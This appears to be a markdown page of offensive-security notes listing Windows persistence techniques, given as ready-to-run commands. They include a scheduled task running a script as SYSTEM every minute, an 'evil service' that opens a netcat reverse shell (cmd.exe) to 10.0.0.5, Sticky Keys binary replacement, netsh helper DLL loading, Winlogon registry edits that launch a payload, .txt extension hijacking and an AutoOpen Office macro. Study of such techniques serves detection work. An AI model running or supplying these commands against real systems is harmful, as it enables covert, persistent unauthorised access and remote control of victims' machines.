 - `schtasks /create /sc minute /mo 1 /tn "eviltask" /tr C:\tools\shell.cmd /ru "SYSTEM"` command can be used to schedule a command to get executed every duration of time or interval of time.The issue is that all processes under this command are spawned with the parent process as `taskeng.exe`.

- Create an evil service with:

```
C:\> sc create evilsvc binpath= "c:\tools\nc 10.0.0.5 443 -e cmd.exe" start= "auto" obj= "LocalSystem" password= ""
[SC] CreateService SUCCESS
C:\> sc start evilsvc
```

- We can use the invoking of Sticky Keys as the triggering mechanism as we will change the path of the binary from `sethc.exe` to our malicious binary path.

- We can create new users and use them for storing our payloads. `net user test test123 /add /domain`.

- We can use the AddMonitor() technique for persistence.

- Just use this command `.\netsh.exe add helper C:\tools\NetshHelperBeacon.dll` after having the dll on the system.

- Registry keys:

```
HKCU\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit
HKCU\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify 
HKCU\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\shell
```
- Just replace the HKCU to HKLM inside these registry keys and we will get system wide persistence.

- Or just add our malware to the init process launches -> `reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v userinit /d C:\Windows\system32\userinit.exe,C:\tools\shell.cmd /t reg_sz /f`

- Extension hijacking;
    - `Computer\HKEY_CLASSES_ROOT\txtfile\shell\open\command` is the registry key having the %1 written after it so that the notepad.exe will open the file with the name %1 or the file which is double clicked at that moment.
    - But if we change it to the `<malicious file> %1` then our malicious file will also get executed alongwith the .txt file and it will thus open our file.

- We can add this AutoOpen() VBA function inside any word or office document to get the VBA code executed everytime I use any template or open the document.

```
Sub AutoOpen()
MsgBox "Ohai from the template"
End Sub
```

